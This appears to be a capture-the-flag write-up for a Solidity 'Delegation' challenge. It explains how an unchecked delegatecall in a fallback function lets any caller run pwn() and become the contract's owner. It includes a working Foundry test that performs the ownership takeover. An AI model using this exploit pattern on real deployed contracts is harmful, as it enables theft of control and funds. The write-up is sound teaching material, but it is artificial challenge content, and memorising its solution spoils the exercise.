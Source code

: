 ## Understanding the Vulnerability
The Delegation contract uses a delegatecall inside its fallback function:
```javascript
(bool result,) = address(delegate).delegatecall(msg.data);
```
If any call is made to Delegation with arbitrary data, that call is forwarded to Delegate using delegatecall.

The key here is:
- delegatecall preserves msg.sender and context.
- The pwn() function in Delegate sets owner = msg.sender.
- Since this is called using delegatecall, it will set the storage of the Delegation contract (owner) to msg.sender.

So, if we send a transaction to Delegation with msg.data = abi.encodeWithSignature("pwn()"), the fallback will delegatecall pwn() on the Delegate, which sets Delegation.owner = msg.sender.

## Exploit Strategy
1.	Send a low-level call to the Delegation contract with function signature pwn().
2.	The fallback function catches it and uses delegatecall.
3.	The pwn() function gets executed in the context of Delegation, changing its owner to us.

## Foundry Test
`test/Delegation.t.sol`
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import { Delegation, Delegate } from "../src/Delegation.sol";

contract DelegationTest is Test {
    
    Delegation public delegation;
    Delegate public delegate;
    address public owner = makeAddr("owner");
    address public attacker = makeAddr("Attacker");

    function setUp() public {
        delegate = new Delegate(owner);
        delegation = new Delegation(address(delegate));
    }

    function test_Attack() public {
        address initialOwner = delegation.owner();
        console.log("Initial Owner: ", initialOwner);

        vm.startPrank(attacker);
        // Exploit via fallback -> delegatecall -> pwn()
        (bool s, ) = address(delegation).call(abi.encodeWithSignature("pwn()"));
        require(s, "S not successful");
        vm.stopPrank();

        address ownerAfter = delegation.owner();
        console.log("Owner after attack:  ", ownerAfter);
        assertEq(ownerAfter, attacker, "Attacker is not owner : YOU LOST");
    }
}
```
